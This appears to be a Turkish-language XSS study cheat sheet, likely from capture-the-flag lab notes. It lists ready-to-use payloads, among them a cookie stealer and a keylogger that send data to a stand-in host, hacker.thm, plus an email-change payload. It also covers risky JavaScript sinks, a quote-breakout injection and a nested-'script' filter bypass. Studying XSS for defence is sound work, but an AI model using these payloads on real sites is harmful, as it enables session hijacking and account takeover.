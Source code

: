 # PAYLOADS

* `<script>alert('XSS');</script>` : Sitede js kodu çalıştırılabilir mi anlamak için yapılan basit bir popup komutu.

* `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`

* `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>` : Keylogger

* `<script>user.changeEmail('attacker@hacker.thm');</script>`

## Reflected XSS

Eğer bir web uygulaması kullanıcı tarafından girilen verileri yeterince kontrol etmez ve bu verileri doğrudan web sayfasının kaynak koduna eklerse burda bir **Reflceted XSS** açığı oluşabilir.

## Stored XSS
Adından da anlaşılacağı gibi, XSS verisi web uygulamasında (örneğin bir veritabanında) depolanır ve daha sonra diğer kullanıcılar siteyi veya web sayfasını ziyaret ettiğinde çalıştırılır. 

---

## Kaynak kodunda hangi güvenli olmayan JavaScript kodunu aramalıyız ?

### InnerHTML Kullanımı:
innerHTML özelliğinin kullanımı, kullanıcı tarafından sağlanan verilerin doğrudan HTML içine yerleştirildiği bir durumu işaret edebilir. Bu, kötü niyetli kullanıcıların HTML ve JavaScript enjekte etmesine olanak tanıyabilir.

#### Örnek:

`document.getElementsByClassName('name')[0].innerHTML='kaan';`
bu tarz bir kodu aşmak için `';alert('kaan');//` şeklinde bir kod kullanabiliriz. Baştaki kesme işareti ile `'` isim girilecek alanı kapatabiliriz. Ardından gelen noktalı virgül işareti ise `;` ard arda kod kullanmamıza olanak tanır (linux komutlarında olduğu gibi). Sondaki çift eğik çizgi ise `//` bu girdiden sonra gelen kodları yorum satırına dönüştürmemize olanak tanır. 

### Document.Write Kullanımı:
`document.write` fonksiyonu, sayfanın yüklenme sırasında dinamik olarak içeriği değiştirmek için kullanılır. Ancak, bu yöntem kullanıcı girişlerini kontrol etmeden doğrudan içerik ekleyebilir ve güvenlik riskleri oluşturabilir.

### eval() fonksiyonu:
metin olarak verilen bir JavaScript ifadesini çalıştırır. Kullanıcı tarafından sağlanan verilerle doğrudan kullanıldığında, güvenlik açıklarına neden olabilir. eval yerine daha güvenli alternatifler kullanılmalıdır.

### Inline JavaScript Kodları:
Sayfa içindeki HTML etiketleri arasında veya `onclick`, `onmouseover`, gibi HTML özelliklerinde kullanılan inline JavaScript kodları, kullanıcı girişlerinin doğrudan çalıştırılmasına neden olabilir.

---

### Script Kelimesi Filitrelenmişse

`<script>alert('kaan');</script>` şeklinde bi js kodu çalıştırmak istediniz fakat page-source da bu kod `<>alert('kaan');</>` şeklinde gözüktü.

bu demek ki **script** kelimesi filitrelenmiş. Fakat bu tarz bir kod ile bu filitreyi aşabiliriz.

`<sscriptcript>alert('kaan');</sscriptcript>`

bu kod sayesinde filitre  aşşağıda görülen script ifadesini kaldırıcak ve yerine kalan harfler ile yeni bir script kelimesi oluşucak.

`<s**script**cript>alert('THM');</s**script**cript>`



